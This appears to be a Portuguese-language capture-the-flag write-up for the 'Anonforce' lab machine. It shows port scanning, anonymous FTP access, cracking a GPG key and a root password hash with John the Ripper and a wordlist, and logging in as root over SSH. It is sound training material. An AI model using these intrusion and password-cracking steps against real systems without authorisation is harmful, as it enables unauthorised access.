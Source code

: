 # Anonforce

* ### Scan de portas - Verificando quais portas estão abertas.
```Bash
rustscan -a 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2eb52051-8d62-4057-a1eb-9be9889e0077)

![image](https://github.com/lufffe/Writeups/assets/90646635/f087c7a5-e1bf-4fb6-8b03-456f6de445da)

* ### Verificando o que está rodando nas portas encontradas.
```Bash
nmap -A -p 21,22 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5481b171-505b-4098-a9b5-232cb3ae6a6b)

* ### Acessando FTP e listando todos os arquivos e pastas.
```Bash
ftp 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/593317a7-6ef8-46ff-847e-8caeb6f6cc36)


![image](https://github.com/lufffe/Writeups/assets/90646635/a3b72171-b83d-4166-a0b2-8c1935570708)

```Bash
cat user.txt
```
>#####################################

![image](https://github.com/lufffe/Writeups/assets/90646635/1e22fcd1-0ff8-4f5f-b6f0-e0e5f34d0730)

![image](https://github.com/lufffe/Writeups/assets/90646635/19810faa-c329-4c5c-93e9-8e7d790be8d4)

```Bash
/usr/sbin/gpg2john private.asc > hash
```


```Bash
john --wordlist=~/rockyou.txt hash   
```
- xbox360          (anonforce) 

```Bash
gpg --import private.asc
```

![image](https://github.com/lufffe/Writeups/assets/90646635/c289986d-2006-4fb8-b71e-72f54ad4ab11)

```Bash
john --wordlist=~/rockyou.txt root.hash
```

![image](https://github.com/lufffe/Writeups/assets/90646635/668176f3-4656-43c8-9c2e-5b1d04e974cc)

```
ssh root@10.10.137.35
```

![image](https://github.com/lufffe/Writeups/assets/90646635/4351685c-ce14-4f48-85c7-9ff6cd8bc031)
